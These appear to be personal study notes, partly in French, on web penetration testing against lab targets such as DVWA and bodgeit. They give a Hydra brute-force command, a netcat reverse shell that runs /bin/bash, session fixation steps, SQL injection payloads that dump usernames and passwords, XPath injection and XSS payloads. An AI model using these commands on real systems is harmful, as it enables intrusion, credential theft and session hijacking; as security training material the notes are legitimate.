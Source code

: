 # Website penetration testing

## Tables des matière
 - [Whatweb](#Whatweb)
 - [Dirb](#Dirb)
 - [Burp Suite](#Burp-Suite)
 - [Hydra](#Hydra)
 - [Session fixation](#Session-fixation)
 - [Injection attack](#Injection-attack)
 - [XML Injection](#XML-Injection)
 - [XSS Reflected](#XSS-Reflected)
 - [XSS Stored](#XSS-Stored)
 - [Hydra](#Hydra)


### Whatweb

Web scanner (mettre en plus)

### Dirb

Web Content Scanner (mettre en plus)

### Burp Suite

	Brute force a field --> In your POST method packet --> Send to intruder --> Go to intruder 
	--> select the right field in the http request in the Position tab 
	--> select "Sniper" attack type (for brute force one field)
	--> In Payload options, load a file with some words in order to test each of them.
	--> Click on "start attack"

	Brute force somes fields --> In your POST method packet --> Send to intruder --> Go to intruder 
	--> select rights fields in the http request in the Position tab 
	--> select "Clsuter bomb" attack type (for brute force some fields)
	--> In Payload options, select your "payload set" and load a list which match with the right payload. 
	Do that for every payload that you selected.
	--> You can add an option in order see if a revelant string appears in the html request.
	Go to options and add the string in "Grep - Match" 
	--> Click on "start attack"
	
### Hydra  

Brute forcer faster than burpsuite

command -> `hydra <IP_address> http-<method>-post "<path>:<username_name_field> = ^USER^&<password_name_field> = ^PASS^&<submit_name_field> = submit:<field that reconize where is wrong input> -L <path to user list> -P <path to pass list>`

### Session fixation
	
If you send a mail with an url, set another parameter that is `SID` with a number you want. When the victim click on the link and for example, login into a website, you can be able to request the website with the SID that you put into the fake url and enter into the website with the session ID of the victim who already login with his username and password.

### Injection attack

#### *Simple command injection*

Some servers are vulnerable to command injection. You can execute multiple commands separate by `;`.

You can directly connect this vulnerable website to your machine in order to execute command throught your terminal with netcat tool.
		
command on your machine --> `nc -l -v -p <port_you_want_listening_on>`

command --> `nc.traditional -e <path_to_your_bash ?/bin/bash?> <ip_adress_of_your_machine> <port_you_listening_on>` 

#### *Blind command injection*
	
In order to see if the website is vulnerable to command injection, ping 2 machines. See in wireshark if the pings works.

#### *SQL Basics* 
		
Keyword to request te database : `CREATE; SELECT; UPDATE; INSERT; DELETE; DROP;` 
	
#### *SQL Injection*
			
Most Common check for SQL injection is to type `'` in the iput.
	
You can use `#` to skip the last '. --> `2' SELECT 1,2 #'`

In order to see how many columns are in the database, use `ORDER BY` -->  `ORDER BY 1`... `ORDER BY 2`... `ORDER BY 3`... `ORDER BY 4`... 

You can select all of these by tiping `UNION SELECT 1,2,3`...
		
*Database name* : `database()`, user link to the database : `user()`

*Common table in databases* : 
	
			information_schema.schemata --> schema_name (database name)
			information_schema.tables --> table_name --> You must specifie the condition : WHERE table_schema = '<database_name>
			information_schema.columns --> column_name, column_type --> You must specifie the condition : WHERE table_name = '<table_name> 
			
Uses the function Concat() to gather some informations in a request --> `2' UNION SELECT CONCAT(user_id, '-',first_name, ' ', last_name), CONCAT(user, '-', password) FROM dvwa.users #'`

#### *SQL Blind Injection* :

Brute force to find the name of the database... --> Intruder burpsuite.

### XML Injection :

Some XML vulnerability can be discover by the symbol `'` like SQL Injection, if there is no input, you can modify the http sending packet and add a `'` after the option you selected

You can display all the dabase by add --> `')]/*|//*[contains('1','1`
		
##### *Automate XML Injection* : 

xcat : `apt-get install python3-pip; pip3 install xcat;`

### XSS Reflected

You can perform an XSS reflected attack by find this vulnerability in a website and execute some malicious code (or not) and send the link to someone (in order to steal cookies or to hijack a session). 
		
You can see if the web site is vulnerable tiping `<script><run_a_script_or_a_command></script>`. Example : `<script>alert('Hello')</script>`

This attack can be perform on a specific target.

### XSS Stored

XSS Stored attack means that everyone who visits the web site where you find XSS vulnerability will be a victim of your malicious code. It's stored in the web site himself (For example in a forum)

You can run a script which send some informations to your server.

#### *Changing HTML code with XSS* :

	<img src=x onerror="document.body.innerHTML='<title>YOU HAVE BEEN HACKED</title>'">
	
#### *Automate XSS* :

##### **xsser** : detect XSS vulnerabilities 

command : `xsser -u '<ip_adress>' -g '<url>?<parameter1> =XSS&<parameter2> =XSS`... 

example : `xsser -u 'http://192.168.1.17' -g '/bodgeit/search.jsp?q=XSS'`. You must specifie "XSS" on each parameter you want to detect XSS vulnerability.

##### *xsssniper* : detect XSS vulnerabilities
			
command : `python3 xsssniper.py -u <full_url>?<parameter1>=`

example : `python3 xsssniper.py -u http://192.168.1.17/bodgeit/search.jsp?q=`
					
